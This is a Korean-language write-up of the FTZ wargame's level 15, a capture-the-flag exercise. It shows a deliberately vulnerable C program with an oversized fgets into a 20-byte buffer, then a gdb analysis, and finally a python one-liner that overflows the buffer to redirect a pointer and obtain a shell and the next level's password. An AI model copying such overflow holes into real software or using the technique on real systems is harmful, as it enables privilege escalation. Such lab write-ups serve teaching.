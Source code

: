 # **FTZ LEVEL15**

## <img src="http://freevector.co/wp-content/uploads/2014/07/61901-door-key.png" width="25"> **Keys**
>attackme.c
```c
#include <stdio.h>
 
main()
{ int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```
FTZ 14번 문제와 비슷하지만 포인터로 `deadbeef` 를 검사하고 있다.

gdb로 분석하면
```
(gdb) disas main
Dump of assembler code for function main:
0x08048490 <main+0>:	push   ebp
0x08048491 <main+1>:	mov    ebp,esp
0x08048493 <main+3>:	sub    esp,0x38
0x08048496 <main+6>:	sub    esp,0x4
0x08048499 <main+9>:	push   ds:0x8049664
0x0804849f <main+15>:	push   0x2d
0x080484a1 <main+17>:	lea    eax,[ebp-56]
0x080484a4 <main+20>:	push   eax
0x080484a5 <main+21>:	call   0x8048360 <fgets>
0x080484aa <main+26>:	add    esp,0x10
0x080484ad <main+29>:	mov    eax,DWORD PTR [ebp-16]
0x080484b0 <main+32>:	cmp    DWORD PTR [eax],0xdeadbeef
0x080484b6 <main+38>:	jne    0x80484dd <main+77>
0x080484b8 <main+40>:	sub    esp,0x8
0x080484bb <main+43>:	push   0xc18
0x080484c0 <main+48>:	push   0xc18
0x080484c5 <main+53>:	call   0x8048380 <setreuid>
0x080484ca <main+58>:	add    esp,0x10
0x080484cd <main+61>:	sub    esp,0xc
0x080484d0 <main+64>:	push   0x8048548
0x080484d5 <main+69>:	call   0x8048340 <system>
0x080484da <main+74>:	add    esp,0x10
0x080484dd <main+77>:	leave  
0x080484de <main+78>:	ret    
0x080484df <main+79>:	nop    
End of assembler dump.
```
`main+32` 에서 주소 자체를 비교하므로 stack 안에 있는 `deadbeef` 를 `ebp-16`이 가리키도록 주소를 입력하겠다.

stack 내에 있는 `deadbeef` 를 `main+32` 에서 찾아보면
```
(gdb) x/16x 0x080484b0
0x80484b0 <main+32>:	0xbeef3881	0x2575dead	0x6808ec83	0x00000c18
0x80484c0 <main+48>:	0x000c1868	0xfeb6e800	0xc483ffff	0x0cec8310
0x80484d0 <main+64>:	0x04854868	0xfe66e808	0xc483ffff	0x90c3c910
(gdb) x/16x 0x080484b2
0x80484b2 <main+34>:	0xdeadbeef	0xec832575	0x0c186808	0x18680000
0x80484c2 <main+50>:	0xe800000c	0xfffffeb6	0x8310c483	0x48680cec
0x80484d2 <main+66>:	0xe8080485	0xfffffe66	0xc910c483	0x895590c3
```
`deadbeef` 의 주소가 `0x080484b2` 라는 것을 알았다. 
## <img src="https://pngimg.com/uploads/road/road_PNG24.png" width="25"> **Payload**
>메모리 구조
```
| buf[20] | dummy[20] | &(deadbeef) | dummy[12] | sfp | ret |
```

>Payload
```
 (python -c "print 'A'*40+'\xb2\x84\x04\x08'";cat) | ./attackme
```

## <img src="https://maxcdn.icons8.com/windows8/PNG/512/Military/sword-512.png" width="25"> **Attack**
```
[level15@ftz level15]$ (python -c "print 'A'*40+'\xb2\x84\x04\x08'";cat) | ./attackme 
my-pass

Level16 Password is "~~~~~~~~~".
```